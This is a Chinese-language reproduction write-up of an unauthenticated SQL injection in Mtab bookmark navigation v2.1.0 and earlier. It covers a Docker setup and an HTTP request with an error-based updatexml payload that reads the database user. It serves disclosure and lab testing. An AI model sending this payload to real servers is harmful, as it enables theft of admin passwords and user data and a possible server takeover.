



# Mtab书签导航程序 v2.1.0 SQL注入漏洞

Mtab书签导航程序 - 免费无广告的浏览器书签助手，多端同步、美观易用的在 线导航和书签工具，自主研发免费使用，帮助您高效管理 网页和应用，提升在线体验。
	Mtab书签导航程序 LinkStore/getIcon 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

漏洞影响版本

Mtab <= v2.1.0

产品项目地址

https://github.com/tsxcw/mtab

参考链接：

- https://forum.butian.net/article/539

## 环境搭建

执行如下命令启动Mtab-v2.1.0程序web

```
docker compose up
```

环境启动后，访问`http://your-ip:80`将看到Mtab的安装向导页面，安装配置如下图



等待安装完成



## 漏洞复现

发送如下数据包

```
POST /LinkStore/list HTTP/1.1
Host: 192.168.76.128
Content-Length: 78
Content-Type: application/json

{"url":"1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) and '1'='1"}
```



